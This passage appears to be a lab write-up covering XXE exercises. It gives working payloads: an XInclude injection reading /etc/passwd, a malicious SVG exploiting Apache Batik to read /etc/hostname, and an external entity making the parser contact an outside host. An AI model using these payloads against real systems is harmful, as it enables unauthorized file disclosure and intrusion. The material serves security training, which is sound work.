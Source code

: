 ```http
productId=1&storeId=1
```

Payload use after replacing the `productId=` parameter with the payload

```http
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

#### Exploiting XXE via image file upload

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
>
> To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Found exploit for mentioned Apache Batik library: [https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/)

Created an .svg file with the below payload then used that as the uploaded avatar image file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### Blind XXE with out-of-band interaction

> You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. Use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

After intercepting the request we get the below request body

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

Updated the intercepted request updating the body with the below payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.165:9090/"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
